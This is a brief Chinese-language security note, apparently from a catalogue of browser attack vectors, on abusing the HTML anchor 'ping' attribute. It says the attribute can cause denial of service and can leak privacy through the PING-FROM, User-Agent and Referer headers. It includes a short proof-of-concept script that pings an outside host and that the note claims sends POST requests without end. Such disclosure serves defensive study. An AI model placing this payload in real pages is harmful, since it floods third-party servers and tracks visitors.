 -----

*特性：ping属性
*环境：发送异步请求，完成一次HTTP重定向，循环发送POST请求，造成DOS攻击；
      PING-FROM、USER-AGENT、REFERER泄漏用户的隐私。
*漏洞类型：DOS攻击、隐私追踪
-----   

举例：
=
-----
      <script> 
      var link = document.createElement('a'); 
      link.href=""; 
      link.ping = 'http://www.xisigr.com/'; 
      document.head.appendChild(link); link.click(); 
      </script>    
      运行上面的代码，就会不停的向xisigr.com发送POST请求。
